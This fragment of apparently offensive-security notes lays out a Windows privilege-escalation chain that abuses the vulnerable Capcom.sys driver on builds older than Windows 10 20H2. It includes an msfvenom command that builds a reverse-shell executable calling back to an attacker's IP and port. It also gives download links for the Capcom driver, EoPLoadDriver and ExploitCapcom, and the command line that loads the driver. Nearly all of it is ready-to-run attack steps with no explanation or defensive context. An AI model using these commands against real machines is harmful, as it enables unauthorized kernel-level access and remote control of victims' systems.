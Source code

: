 version < Windows 10 20H2 (Build 19042)

reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f exe -o rev.exe
```

Capcom.sys

```
https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys
```

download eoploaddriver.cpp

```
https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp
```

```
C:\Users\<user>\source\repos\eoploaddriver\x64\Release
```

download ExploitCapcom

```
https://github.com/tandasat/ExploitCapcom
```

```
C:\Windows\Temp\wineoploaddriver.exe System\CurrentControlSet\dfserv C:\Windows\Temp\Capcom.sys
```